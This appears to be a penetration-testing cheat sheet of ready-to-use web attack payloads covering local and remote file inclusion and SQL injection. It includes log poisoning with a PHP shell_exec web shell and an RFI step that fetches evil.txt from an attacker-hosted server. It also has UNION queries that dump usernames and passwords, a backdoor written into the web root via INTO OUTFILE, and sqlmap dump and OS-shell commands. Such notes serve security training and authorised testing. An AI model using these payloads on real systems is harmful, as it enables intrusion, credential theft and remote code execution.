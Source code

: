**# LFI - [include $file;] <-- vulnerable code** - [Portswigger Directory traversal](https://portswigger.net/web-security/file-path-traversal)

    fimap -u "http://127.0.0.1/site.php?test="
    
    /etc/passwd & c:\boot.ini
    menu.php?file=c:\windows\system32\drivers\etc\hosts
    https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini

*LFI to log poisoning:*

    kali: nc -nv remoteIP 80
    kali: <?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
    web url: menu.php?file=c:\xampp\apache\logs\access.log&cmd=ipconfig
    
*LFI to php data wrapper:* 	#inject PHP code via LFI vulnerabilities.

    url: menu.php?file=data:text/plain,hello world
    url: menu.php?file=data:text/plain,<?php echo shell_exec("dir") ?>

**# RFI**

    kali: echo "<?php echo shell_exec($_GET['cmd']); ?>" >> evil.txt
    kali: sudo systemctl restart apache2 / python -m SimpleHTTPServer 8989
    kali: sudo nc -nvlp 80
    web url: menu.php?file=http://attackerIP/evil.txt
    web url: menu.php?file=http://attackerIP/evil.txt&cmd=ipconfig

**# SQLi** - [manual-sql-injection-exploitation-step-by-step](https://www.hackingarticles.in/manual-sql-injection-exploitation-step-step/) | [Portswigger SQLi](https://portswigger.net/web-security/sql-injection)

*Column number enum:*

    debug.php?id=1 order by 1 								#use burp repeater to automate find error in response
    debug.php?id=1 union all select 1, 2, 3
    debug.php?id=1 union all select 1, 2, @@version 					#Extracting Data from the Database
    debug.php?id=1 union all select 1, 2, user()
    debug.php?id=1 union all select 1, 2, table_name from information_schema.tables 	#enum db tables and column through the information_schema.
    debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users' #enum tables
    debug.php?id=1 union all select 1, username, password from users  			#enum user,passwd 

*SQLi to Code Execution:*

    debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts') 	#read a file using the load_file function
    debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php' 	#INTO OUTFILE function to malicious PHP in server’s web root. 
    visit url: victimIP/backdoor.php?cmd=ipconfig
    
*Automate SQLi with sqlmap:*

    sqlmap -u http://victimIP/debug.php?id=1 -p "id"
    sqlmap -u http://victimIP/debug.php?id=1 -p "id" --dbms=mysql --dump
    sqlmap -u http://victimIP/debug.php?id=1 -p "id" --dbms=mysql --os-shell
